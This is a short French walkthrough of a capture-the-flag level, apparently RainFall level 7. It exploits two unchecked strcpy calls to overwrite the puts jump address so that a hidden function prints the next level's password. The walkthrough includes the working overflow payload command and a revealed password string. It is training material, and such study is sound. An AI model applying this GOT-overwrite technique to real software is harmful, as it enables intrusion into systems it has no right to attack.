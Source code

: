 # Level 7

En ouvrant le level 7 avec cuter on remarque que le programme prend 2 argument qu'il fait passer dans des strcpy avec des destination de taille fix donc il y a possibiliter d'overflow les buffer comme a l'exercice precedant. On remarque egalement qu'il y a un fonction m pas appler qui cat directement le mot de passe du level 8. Donc le but est comme dans lexercie predant d'apeler cette derniere.

On peut constater en tatonant que le permier argument segfault lorsqu'on luis donne un chaine de += 20 charater.
```
level7@RainFall:~$ ./level7 ssssssssssssssssssss test
~~
level7@RainFall:~$ ./level7 sssssssssssssssssssss test
Segmentation fault (core dumped)
level7@RainFall:~$ 
```
Donc il faut générer un buffer overflow sur le premier argument et luis passer `0x08049928` qui est l'adresse de `JUMP` .

A la fin du main est appele la fonction puts, on va donc recuperer l'adresse du jmp de cette fonction pour lui dire de lancer la fonction m a la place. Ce que nous donne : 

- argv[1] : overflow + adresse du jmp 
- argv[2] : adresse de la fonction m

```
level7@RainFall:~$  ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1624581651
level7@RainFall:~$ 
```
